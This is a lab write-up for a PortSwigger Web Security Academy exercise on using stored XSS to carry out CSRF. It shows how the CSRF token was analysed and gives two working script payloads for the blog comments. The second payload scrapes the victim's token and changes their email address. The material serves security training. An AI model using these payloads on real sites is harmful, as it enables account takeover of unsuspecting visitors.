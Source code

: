 # [Lab: Exploiting XSS to perform CSRF](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf)

## Lab

This lab contains a stored XSS vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to perform a CSRF attack and change the email address of someone who views the blog post comments.

You can log in to your own account using the following credentials: `wiener:peter`

## Analysis

csrf:

- login to wiener account and intercept a change password request:

    ```http
    POST /my-account/change-email HTTP/1.1

    email=test%40test.test&csrf=FOGV5uzR24scygCsUjTp2f1EMZjlVte7
    ```

  - csrf: a token to prevent csrf

- check csrf token at post comment section: `<input required="" type="hidden" name="csrf" value="FOGV5uzR24scygCsUjTp2f1EMZjlVte7">`

- => same value

xss:

- this challenge has no defense againts xxs, just post a comment `<script>alert(1)</script>` and boom

## Exploit

to csrf change password, let's craft a script:

  ```js
  <script>
  fetch('https://id.web-security-academy.net/my-account/change-email',{
  method:'POST',
  mode: 'no-cors',
  body: 'email=hacked@gamil.com&csrf=' + document.getElementsByName('csrf')[0].getAttribute('value')
  });
  </script>
  ```

- failed: `Uncaught TypeError: Cannot read properties of undefined (reading 'getAttribute')`
- because the element contains csrf token is loaded after the script

second try:

  ```js
  <script>
  var req = new XMLHttpRequest();
  req.onload = handleResponse;
  req.open('get','/my-account',true);
  req.send();
  function handleResponse() {
      var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
      var changeReq = new XMLHttpRequest();
      changeReq.open('post', '/my-account/change-email', true);
      changeReq.send('csrf='+token+'&email=test@test.com')
  };
  </script>
  ```

solved
